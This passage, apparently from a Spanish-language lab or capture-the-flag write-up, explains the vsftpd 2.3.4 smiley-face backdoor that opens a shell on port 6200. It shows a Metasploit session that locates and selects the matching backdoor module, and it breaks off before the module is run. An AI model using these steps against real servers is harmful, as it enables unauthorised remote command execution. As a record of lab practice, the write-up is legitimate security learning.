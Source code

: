 ## Probando vulnerabilidad que no es

Hay una vulnerabilidad en el servicio vsftpd 2.3.4, un backdoor que se abre al insertar una carita sonriente `:)` despúes de un usuario cualquiera al intentar conectarte con telnet, mira está [página](https://www.exploit-db.com/exploits/49757) que en python, al menos yo, lo veo más claro, al hacerlo se abre el puerto 6200, por el que podrás conectarte por telnet.

Me apetece hacerlo con searchsploit, así que abriré msfconsole:

```sh
❯ msfconsole
                                                  

                 _---------.
             .' #######   ;."
  .---,.    ;@             @@`;   .---,..
." @@@@@'.,'@@            @@@@@',.'@@@@ ".
'-.@@@@@@@@@@@@@          @@@@@@@@@@@@@ @;
   `.@@@@@@@@@@@@        @@@@@@@@@@@@@@ .'
     "--'.@@@  -.@        @ ,'-   .'--"
          ".@' ; @       @ `.  ;'
            |@@@@ @@@     @    .
             ' @@@ @@   @@    ,
              `.@@@@    @@   .
                ',@@     @   ;           _____________
                 (   3 C    )     /|___ / Metasploit! \
                 ;@'. __*__,."    \|--- \_____________/
                  '(.,...."/


       =[ metasploit v6.3.5-dev                           ]
+ -- --=[ 2296 exploits - 1202 auxiliary - 410 post       ]
+ -- --=[ 965 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

.... SNIP .....

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/interact
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >>
```
